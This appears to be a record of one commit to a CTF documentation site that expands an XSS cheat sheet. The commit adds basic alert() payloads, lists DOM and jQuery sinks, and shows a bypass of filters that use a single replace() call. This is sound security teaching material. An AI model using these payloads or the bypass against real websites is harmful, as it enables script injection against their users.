

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/web/clientside/03-XSS.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
more docs on XSS

````diff
--- a/docs/pentest/web/clientside/03-XSS.md
+++ b/docs/pentest/web/clientside/03-XSS.md
@@ -5,10 +5,74 @@ description: XSS cheatsheets, payloads and tricks.
 
 # XSS
 
-## Basic payload
+## Attack
+
+### Basic payload
 
 ```html
 <sCRipT>alert()</scRipt>
 <a href="javascript:alert()"></a>
 <img src=x onerror="alert()">
 ```
+
+More payloads on [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).
+
+### Vectors
+
+If you can control the `href` tag of an anchor (`<a>` element). You can try to set the `href` value to `javascript:alert()`.
+
+### DOM XSS
+
+The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:
+
+```
+document.write()
+document.writeln()
+document.domain
+element.innerHTML
+element.outerHTML
+element.insertAdjacentHTML
+element.onevent
+```
+
+The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:
+
+```
+add()
+after()
+append()
+animate()
+insertAfter()
+insertBefore()
+before()
+html()
+prepend()
+replaceAll()
+replaceWith()
+wrap()
+wrapInner()
+wrapAll()
+has()
+constructor()
+init()
+index()
+jQuery.parseHTML()
+$.parseHTML()
+```
+
+> Source [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/dom-based).
+
+## Bypass
+
+### Replace function
+
+The `replace` function only replace the first occurence.
+
+```js
+> "<img src=x onerror='alert()'>".replace("<", "&lt;")
+"&lt;img src=x onerror='alert()'>"
+
+
+> "<<img src=x onerror='alert()'>".replace("<", "&lt;")
+"&lt;<img src=x onerror='alert()'>"
+```
````
